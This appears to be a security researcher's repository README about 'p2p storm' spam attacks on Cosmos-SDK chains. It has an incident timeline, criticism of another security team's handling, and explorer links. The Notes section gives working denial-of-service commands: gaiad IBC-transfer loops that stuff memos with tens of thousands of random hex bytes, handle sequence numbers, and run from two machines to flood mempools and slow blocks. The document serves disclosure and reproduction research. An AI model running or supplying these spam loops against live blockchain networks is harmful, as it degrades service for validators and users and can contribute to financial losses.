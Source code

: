 # Spammy

## Timeline

* 2021, Sept 
  * Issue first noticed on sentinel
    * [validator chat logs](./sentinel-evidence/sentinelvalidatortg/) 10/15/2021-12/15/2021
    * first report to icf hackerone
    * https://acrobat.adobe.com/link/review?uri=urn:aaid:scds:US:c14b2605-3497-381a-870e-510b92e33f75
* 2022, May 
  * Issue occurs on Luna Classic, accelerating the loss of billions in user funds
  * Today, notably, Luna2 has a block size of 1MB and Terraform Labs confirmed that it is due to this
* 2023, August 15 
  * Issue occurs on Stride and Notional begins to investigate with suport from a broad group of teams.
* 2023, Sept 21
  * 8:01am - Jacob Gadikian adds Jessy Irwin to "invalid block parts" channel
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695272490812409
  * 8:54am - Jessy Irwin leaves "invalid block parts" channel without saying a word
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695275679442249
  * 9:08am - Amulet subtweets this
    * https://x.com/amuletdotdev/status/1704739436335083941?s=20 
* 2023, Sept 25 
  * Notional Labs reproduces the issue on the cosmos hub replicated security testnet with the explicit approval of Hypha
* 2023, Sept 26
  * Notional labs has accelerated the attack with a [bash script](./attack.bash)
  * RS testnet blocks last 38 seconds each
  * Notional labs discontinues the attack on the RS testnet
* 2023, Sept 27
  * The network continues to experience degraded performance
  * Validator mempools remain [full](./mempoolcryptocrew.json) 
  * Block times are stil [7.9 seconds on average](./screenshots/hub-testnet/current-09-27_19-55-05.jpg), representing a service degredation of 33%
  * Full validator mempools could reduce access to the network for users
  * Network hasn't been attacked for over 18 hours
* 2023, Sept 28 7:16PM CET - amulet announces a low severity security issue with comet, likely because they've not got full context on the issue
  * https://x.com/amuletdotdev/status/1707429071213511090
  * https://github.com/cometbft/cometbft/security/advisories/GHSA-hq58-p9mv-338c 
* 2023, Sept 29 2:14PM CET
  * Cosmos hub replicated security testnet continues to have degraded performance due to gossiping of invalid block parts, logs below.
* 2023, Sept 30:
  * Video One: (DM Jacob for access)
  * Video Two: (DM Jacob for access)
  * [Secret Network Governance Proposal by Assaf](https://www.mintscan.io/secret/proposals/274)
  * Formation of Validator Working Group on Spam per Amulet Recommendations by Jacob Gadikian
* 2023, Oct 1:
  * [Osmosis Expedited Governance Proposal by Jacob Gadikian](https://www.mintscan.io/osmosis/proposals/645)
  * [Cosmos Hub Governance Proposal by Jacob Gadikian](https://www.mintscan.io/cosmos/proposals/827)
  
 

It is my strong belief that Amulet does not understand the nature of the situation because they've failed to communicate with the numerous teams involved.  If they were to even just sync the cosmos hub replicated security testnet, they would immediately see that it is still suffering from the previous attack. 

Amulet seems to have not understood that there are numerous issues at play, despite being in possession of this report:

https://docs.google.com/document/d/1oCjsVYMaV77etxOEbDxh58vkAQaXf7RAkhXvF_8GYis/edit




## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


### it has been [reproduced](./REPRODUCITON.md)






## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


And p2p storms have been safely replicated on the cosmos hub replicated security testnet. 


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start


  Loop the loop script
```bash
while true ; do bash attack2.bash ; done
```

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```
but do it from two machines

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```


